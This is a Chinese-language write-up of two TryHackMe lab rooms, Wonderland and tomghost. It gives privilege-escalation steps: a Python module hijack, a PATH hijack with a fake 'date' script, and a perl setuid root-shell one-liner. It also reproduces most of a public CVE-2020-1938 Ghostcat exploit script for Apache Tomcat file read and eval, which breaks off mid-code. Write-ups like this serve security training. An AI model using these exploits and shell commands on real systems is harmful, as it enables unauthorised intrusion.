# TryHackMe 一些打靶记录 - 先知社区

TryHackMe 一些打靶记录

- - -

## Wonderland

## 信息收集

nmap+masscan

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222657-74ee44ce-beb2-1.png)

之后 gobuster 扫描一下目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222702-7835d868-beb2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222707-7b1e5488-beb2-1.png)

继续 gobuster 扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222712-7e16c45e-beb2-1.png)

可以猜测出来目录了

```plain
http://10.10.194.98/r/a/b/b/i/t/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222717-811323b4-beb2-1.png)

查看源码得到 ssh 连接的账号密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222721-83916614-beb2-1.png)

```plain
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

之后 SSH 连接

## 漏洞分析

### 根据导入第三方 python 库引发的提权

sudo 提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222728-87804916-beb2-1.png)

```plain
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

看起来就是利用 random 库实现一个随机打印 10 行诗歌，我们定位一个 random 库的位置，先看一下 python3 模块的目录

```plain
python3 -c 'import sys; print (sys.path)'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222738-8de09324-beb2-1.png)

发现这里有一个空白的的模块未被使用

这里我创建了一个起/bin/sh 的脚本

```plain
import os

os.system('/bin/sh')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222744-9159518a-beb2-1.png)

这样和 walrus 脚本在同一目录，这样的话，他和 random.py 是调用模块是一样的，我们如果执行了 walrus 脚本，也可以执行 random.py

```plain
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222750-94835d10-beb2-1.png)

### 调用二进制文件相对路径的坏处

进入 rabbit 目录，发现有一个 64 位的二进制文件，直接执行发现没有提权，IDA 分析一下，发现 main 函数存在逻辑问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222754-97524dbc-beb2-1.png)

前面是调用绝对路径，后面则是相对路径

回到这个题目，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222911-c4d74134-beb2-1.png)

可以看到这里调用了 date，但是没有绝对路径，所以我们可以创建一个 date 文件，之后再环境变量中添加这个路径即可

先看一下环境变量

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222914-c724e32e-beb2-1.png)

tmp 目录是所有用户可读写的，可以将 date 文件创建在 tmp 下，然后将 tmp 添加到环境变量中

```plain
export PATH=/tmp:$PATH
```

之后创建一个 date 的文件

```plain
#!/bin/sh
/bin/sh
```

```plain
chmod +x date
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222920-ca3382a0-beb2-1.png)

得到 password

```plain
WhyIsARavenLikeAWritingDesk?
```

su 换一下用户

## 定时任务提权 root

尝试 sudo 和 suid 提权发现没啥有用的，看一下定时任务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222923-cc6afd46-beb2-1.png)

发现 perl 有 set\_uid

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222927-ceb48770-beb2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129222931-d147d99c-beb2-1.png)

```plain
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## tomghost

## 信息收集

mascan

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223011-e91024a8-beb2-1.png)

nmap

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129223016-ebd93bde-beb2-1.png)

## 漏洞分析

这里知道了 Apache Tomcat 的信息，从 exploit 找一下对应 poc

找到[https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143) ，发现 CVE-2020-1938 适用于 Apache Tomcat 9.0.30

```plain
#!/usr/bin/python3
# Author: 00theway

import socket
import binascii
import argparse
import urllib.parse

debug = False


def log(type, *args, **kwargs):
    if type == 'debug' and debug == False:
        return
    elif type == 'append' and debug == True:
        return
    elif type == 'append':
        kwargs['end'] = ''
        print(*args, **kwargs)
        return
    print('[%s]' % type.upper(), *args, **kwargs)


class ajpRequest(object):
    def __init__(self, request_url, method='GET', headers=[], attributes=[]):
        self.request_url = request_url
        self.method = method
        self.headers = headers
        self.attributes = attributes

    def method2code(self, method):
        methods = {
            'OPTIONS': 1,
            'GET': 2,
            'HEAD': 3,
            'POST': 4,
            'PUT': 5,
            'DELETE': 6,
            'TRACE': 7,
            'PROPFIND': 8
        }
        code = methods.get(method, 2)
        return code

    def make_headers(self):
        header2code = {
            b'accept': b'\xA0\x01',  # SC_REQ_ACCEPT
            b'accept-charset': b'\xA0\x02',  # SC_REQ_ACCEPT_CHARSET
            b'accept-encoding': b'\xA0\x03',  # SC_REQ_ACCEPT_ENCODING
            b'accept-language': b'\xA0\x04',  # SC_REQ_ACCEPT_LANGUAGE
            b'authorization': b'\xA0\x05',  # SC_REQ_AUTHORIZATION
            b'connection': b'\xA0\x06',  # SC_REQ_CONNECTION
            b'content-type': b'\xA0\x07',  # SC_REQ_CONTENT_TYPE
            b'content-length': b'\xA0\x08',  # SC_REQ_CONTENT_LENGTH
            b'cookie': b'\xA0\x09',  # SC_REQ_COOKIE
            b'cookie2': b'\xA0\x0A',  # SC_REQ_COOKIE2
            b'host': b'\xA0\x0B',  # SC_REQ_HOST
            b'pragma': b'\xA0\x0C',  # SC_REQ_PRAGMA
            b'referer': b'\xA0\x0D',  # SC_REQ_REFERER
            b'user-agent': b'\xA0\x0E'  # SC_REQ_USER_AGENT
        }
        headers_ajp = []

        for (header_name, header_value) in self.headers:
            code = header2code.get(header_name, b'')
            if code != b'':
                headers_ajp.append(code)
                headers_ajp.append(self.ajp_string(header_value))
            else:
                headers_ajp.append(self.ajp_string(header_name))
                headers_ajp.append(self.ajp_string(header_value))

        return self.int2byte(len(self.headers), 2), b''.join(headers_ajp)

    def make_attributes(self):
        '''
        org.apache.catalina.jsp_file
        javax.servlet.include.servlet_path + javax.servlet.include.path_info
        '''
        attribute2code = {
            b'remote_user': b'\x03',
            b'auth_type': b'\x04',
            b'query_string': b'\x05',
            b'jvm_route': b'\x06',
            b'ssl_cert': b'\x07',
            b'ssl_cipher': b'\x08',
            b'ssl_session': b'\x09',
            b'req_attribute': b'\x0A',  # Name (the name of the attribut follows)
            b'ssl_key_size': b'\x0B'
        }
        attributes_ajp = []

        for (name, value) in self.attributes:
            code = attribute2code.get(name, b'')
            if code != b'':
                attributes_ajp.append(code)
                if code == b'\x0A':
                    for v in value:
                        attributes_ajp.append(self.ajp_string(v))
                else:
                    attributes_ajp.append(self.ajp_string(value))

        return b''.join(attributes_ajp)

    def ajp_string(self, message_bytes):
        # an AJP string
        # the length of the string on two bytes + string + plus two null bytes
        message_len_int = len(message_bytes)
        return self.int2byte(message_len_int, 2) + message_bytes + b'\x00'

    def int2byte(self, data, byte_len=1):
        return data.to_bytes(byte_len, 'big')

    def make_forward_request_package(self):
        '''
        AJP13_FORWARD_REQUEST :=
            prefix_code      (byte) 0x02 = JK_AJP13_FORWARD_REQUEST
            method           (byte)
            protocol         (string)
            req_uri          (string)
            remote_addr      (string)
            remote_host      (string)
            server_name      (string)
            server_port      (integer)
            is_ssl           (boolean)
            num_headers      (integer)
            request_headers *(req_header_name req_header_value)
            attributes      *(attribut_name attribute_value)
            request_terminator (byte) OxFF
        '''
        req_ob = urllib.parse.urlparse(self.request_url)

        # JK_AJP13_FORWARD_REQUEST
        prefix_code_int = 2
        prefix_code_bytes = self.int2byte(prefix_code_int)
        method_bytes = self.int2byte(self.method2code(self.method))
        protocol_bytes = b'HTTP/1.1'
        req_uri_bytes = req_ob.path.encode('utf8')
        remote_addr_bytes = b'127.0.0.1'
        remote_host_bytes = b'localhost'
        server_name_bytes = req_ob.hostname.encode('utf8')

        # SSL flag
        if req_ob.scheme == 'https':
            is_ssl_boolean = 1
        else:
            is_ssl_boolean = 0

        # port
        server_port_int = req_ob.port
        if not server_port_int:
            server_port_int = (is_ssl_boolean ^ 1) * 80 + (is_ssl_boolean ^ 0) * 443
        server_port_bytes = self.int2byte(server_port_int, 2)  # convert to a two bytes

        is_ssl_bytes = self.int2byte(is_ssl_boolean)  # convert to a one byte

        self.headers.append((b'host', b'%s:%d' % (server_name_bytes, server_port_int)))

        num_headers_bytes, headers_ajp_bytes = self.make_headers()

        attributes_ajp_bytes = self.make_attributes()

        message = []
        message.append(prefix_code_bytes)
        message.append(method_bytes)
        message.append(self.ajp_string(protocol_bytes))
        message.append(self.ajp_string(req_uri_bytes))
        message.append(self.ajp_string(remote_addr_bytes))
        message.append(self.ajp_string(remote_host_bytes))
        message.append(self.ajp_string(server_name_bytes))
        message.append(server_port_bytes)
        message.append(is_ssl_bytes)
        message.append(num_headers_bytes)
        message.append(headers_ajp_bytes)
        message.append(attributes_ajp_bytes)
        message.append(b'\xff')
        message_bytes = b''.join(message)

        send_bytes = b'\x12\x34' + self.ajp_string(message_bytes)

        return send_bytes


class ajpResponse(object):
    def __init__(self, s, out_file):
        self.sock = s
        self.out_file = out_file
        self.body_start = False
        self.common_response_headers = {
            b'\x01': b'Content-Type',
            b'\x02': b'Content-Language',
            b'\x03': b'Content-Length',
            b'\x04': b'Date',
            b'\x05': b'Last-Modified',
            b'\x06': b'Location',
            b'\x07': b'Set-Cookie',
            b'\x08': b'Set-Cookie2',
            b'\x09': b'Servlet-Engine',
            b'\x0a': b'Status',
            b'\x0b': b'WWW-Authenticate',
        }
        if not self.out_file:
            self.out_file = False
        else:
            log('*', 'store response in %s' % self.out_file)
            self.out = open(self.out_file, 'wb')

    def parse_response(self):
        log('debug', 'start')

        magic = self.recv(2)  # first two bytes are the 'magic'
        log('debug', 'magic', magic, binascii.b2a_hex(magic))
        # next two bytes are the length
        data_len_int = self.read_int(2)

        code_int = self.read_int(1)
        log('debug', 'code', code_int)

        if code_int == 3:
            self.parse_send_body_chunk()
        elif code_int == 4:
            self.parse_headers()
        elif code_int == 5:
            self.parse_response_end()
            quit()

        self.parse_response()

    def parse_headers(self):
        log("append", '\n')
        log('debug', 'parsing RESPONSE HEADERS')

        status_int = self.read_int(2)
        msg_bytes = self.read_string()

        log('<', status_int, msg_bytes.decode('utf8'))

        headers_number_int = self.read_int(2)
        log('debug', 'headers_nb', headers_number_int)

        for i in range(headers_number_int):
            # header name: two cases
            first_byte = self.recv(1)
            second_byte = self.recv(1)

            if first_byte == b'\xa0':
                header_key_bytes = self.common_response_headers[second_byte]
            else:
                header_len_bytes = first_byte + second_byte
                header_len_int = int.from_bytes(header_len_bytes, byteorder='big')
                header_key_bytes = self.read_bytes(header_len_int)
                # consume the 0x00 terminator
                self.recv(1)

            header_value_bytes = self.read_string()
            try:
                header_key_bytes = header_key_bytes.decode('utf8')
                header_value_bytes = header_value_bytes.decode('utf8')
            except:
                pass
            log('<', '%s: %s' % (header_key_bytes, header_value_bytes))

    def parse_send_body_chunk(self):
        if not self.body_start:
            log('append', '\n')
            log('debug', 'start parsing body chunk')
            self.body_start = True
        chunk = self.read_string()
        if self.out_file:
            self.out.write(chunk)
        else:
            try:
                chunk = chunk.decode('utf8')
            except:
                pass

            log('append', chunk)

    def parse_response_end(self):
        log('debug', 'start parsing end')
        code_reuse_int = self.read_int(1)
        log('debug', "finish parsing end", code_reuse_int)
        self.sock.close()

    def read_int(self, int_len):
        return int.from_bytes(self.recv(int_len), byteorder='big')

    def read_bytes(self, bytes_len):
        return self.recv(bytes_len)

    def read_string(self, int_len=2):
        data_len = self.read_int(int_len)
        data = self.recv(data_len)
        # consume the 0x00 terminator
        end = self.recv(1)
        log('debug', 'read_string read data_len:%d\ndata_len:%d\nend:%s' % (data_len, len(data), end))
        return data

    def recv(self, data_len):
        data = self.sock.recv(data_len)
        while len(data) < data_len:
            log('debug', 'recv not end,wait for %d bytes' % (data_len - len(data)))
            data += self.sock.recv(data_len - len(data))
        return data


class ajpShooter(object):
    def __init__(self, args):
        self.args = args
        self.headers = args.header
        self.ajp_port = args.ajp_port
        self.requesturl = args.url
        self.target_file = args.target_file
        self.shooter = args.shooter
        self.method = args.X
        self.out_file = args.out_file

    def shoot(self):
        headers = self.transform_headers()

        target_file = self.target_file.encode('utf8')

        attributes = []
        evil_req_attributes = [
            (b'javax.servlet.include.request_uri', b'index'),
            (b'javax.servlet.include.servlet_path', target_file)
        ]

        for req_attr in evil_req_attributes:
            attributes.append((b"req_attribute", req_attr))

        if self.shooter == 'read':
            self.requesturl += '/index.txt'
        else:
            self.requesturl += '/index.jsp'

        ajp_ip = urllib.parse.urlparse(self.requesturl).hostname

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ajp_ip, self.ajp_port))

        message = ajpRequest(self.requesturl, self.method, headers, attributes).make_forward_request_package()
        s.send(message)

        ajpResponse(s, self.out_file).parse_response()

    def transform_headers(self):
        self.headers = [] if not self.headers else self.headers
        newheaders = []
        for header in self.headers:
            hsplit = header.split(':')
            hname = hsplit[0]
            hvalue = ':'.join(hsplit[1:])
            newheaders.append((hname.lower().encode('utf8'), hvalue.encode('utf8')))

        return newheaders


if __name__ == "__main__":
    # parse command line arguments
    print('''
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    ''')
    parser = argparse.ArgumentParser()
    parser.add_argument('url', help='target site\'s context root url like http://www.example.com/demo/')
    parser.add_argument('ajp_port', default=8009, type=int, help='ajp port')
    parser.add_argument('target_file', help='target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg')
    parser.add_argument('shooter', choices=['read', 'eval'], help='read or eval file')

    parser.add_argument('--ajp-ip', help='ajp server ip,default value will parse from from url')
    parser.add_argument('-H', '--header', help='add a header', action='append')
